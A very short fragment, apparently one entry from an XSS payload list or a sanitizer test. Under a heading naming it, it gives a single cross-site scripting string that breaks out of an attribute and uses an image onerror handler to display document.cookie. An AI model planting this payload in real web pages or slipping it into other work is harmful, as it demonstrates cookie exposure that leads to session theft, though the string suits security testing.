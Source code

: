 ---img-src-x-onerror-prompt-document.cookie---
==============================================

">&lt;img src=x onerror=prompt(document.cookie);>

